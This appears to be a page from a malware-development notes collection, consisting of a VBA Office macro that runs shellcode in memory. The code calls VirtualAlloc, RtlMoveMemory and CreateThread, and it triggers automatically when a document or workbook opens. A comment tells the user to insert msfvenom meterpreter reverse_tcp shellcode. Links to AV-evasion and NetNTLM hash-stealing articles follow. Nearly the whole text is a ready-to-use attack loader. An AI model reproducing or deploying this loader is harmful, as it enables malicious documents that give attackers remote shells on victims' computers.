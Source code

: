 # VBA

```vbscript
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As LongPtr, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, ByRef Source As Any, ByVal Length As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As Long, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Destination As Long, ByRef Source As Any, ByVal Length As Long) As Long
#EndIf

Sub Auto_Open()
        Dim myByte As Long, myArray As Variant, offset As Long
#If Vba7 Then
        Dim rwxpage As LongPtr, res As LongPtr
#Else
        Dim rwxpage As Long, res As Long
#EndIf
        ' Replace this shellcode with:
        ' msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f vba
        myArray = Array()

        rwxpage = VirtualAlloc(0, UBound(myArray), &H1000, &H40)
        For offset = LBound(myArray) To UBound(myArray)
                myByte = myArray(offset)
                res = RtlMoveMemory(rwxpage + offset, myByte, 1)
        Next offset
        res = CreateThread(0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### San3ncrypt3d

- [San3ncrypt3d: Running ShellCode in Memory | AV Evasion – VBA Version](https://san3ncrypt3d.com/2021/08/13/VBAShell/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)